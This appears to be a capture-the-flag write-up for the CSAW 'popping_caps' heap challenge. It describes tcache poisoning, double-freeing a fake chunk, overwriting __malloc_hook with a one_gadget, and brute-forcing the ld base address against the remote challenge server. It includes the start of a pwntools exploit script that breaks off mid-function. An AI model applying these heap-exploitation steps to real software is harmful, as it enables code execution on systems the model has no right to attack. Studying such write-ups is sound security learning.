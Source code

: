 I directly focused on tcache poisoning, before even look at the heap, and doing so i missed a possible fake chunk.. whatever, and so i found all valid chunk in ld(rw-) space address.
Now there's a problem, we don't know, precisely, where the ld base address will be placed by the system running remotely, but we know that, his base address will be more higher than the libc base address.
Further, we have the libc given with the challenge.


#### Solution
 - Take the leak of system@libc and then sum something to get the ld base address
 - Now free the fake-chunk twice
 - Do malloc to get back the fake-chunk
 - Now overwrite his fd and then do two malloc, so now the ptmalloc gave back to us the '__malloc_hook' chunk
 - Write the one_gadget to win

Unfortunately, the script doesn't work remotely, and so i didn't get the flag :(
How and why: The address are all aligned by 0x1000, we know because the way the kernel manages page-table, so this was my guessing approach (don't ask me why i did this so ugly):

```
k_now = 0x10  #right value 0x1
condition_stop = False
while not condition_stop:
  r = remote("pwn.chal.csaw.io", 1001)
  condition_stop=exploit( (k_now  << 12) + 0x428 )
  r.close()
  k_now += 1
  time.sleep(0.4)
```  

So it didn't work, because i started from 0x10 and not 0x1.
```
from pwn import *
import struct
import time
import sys

prog_name = './popping_caps'
context.binary = prog_name
libcz = ELF("libc.so.6")
r = False

def halt():
  while True:
    log.info( r.recvline() )

def malloc(sizes):
  r.recvuntil("Your choice:")
  r.sendline('1')
  r.recvuntil("How many:")
  r.sendline(str(sizes))

def free(index):
  r.recvuntil("Your choice:")
  r.sendline('2')
  r.recvuntil("hats in a free:")
  r.sendline(str(index))

def write(data):
  r.recvuntil("Your choice:")
  r.sendline('3')
  r.recvuntil("Read me in:")
  r.send(data)

def give_up():
```